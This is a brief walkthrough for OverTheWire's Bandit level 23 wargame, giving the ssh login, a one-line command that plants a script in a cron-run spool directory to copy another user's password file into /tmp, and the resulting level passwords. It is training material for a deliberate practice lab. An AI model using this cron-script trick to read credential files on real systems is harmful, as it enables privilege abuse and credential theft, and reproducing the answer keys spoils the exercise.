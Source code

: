 ### Bandit Level 23

#### Solution
```bash
	ssh bandit23@bandit.labs.overthewire.org
	echo 'cat /etc/bandit_pass/bandit24 > /tmp/pass_bandit24.txt' > /var/spool/bandit24/pass.sh && chmod +x /var/spool/bandit24/pass.sh && sleep 1m && cat /tmp/pass_bandit24.txt
```
**Password**: *jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n*


##### Key for Level 24
```
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
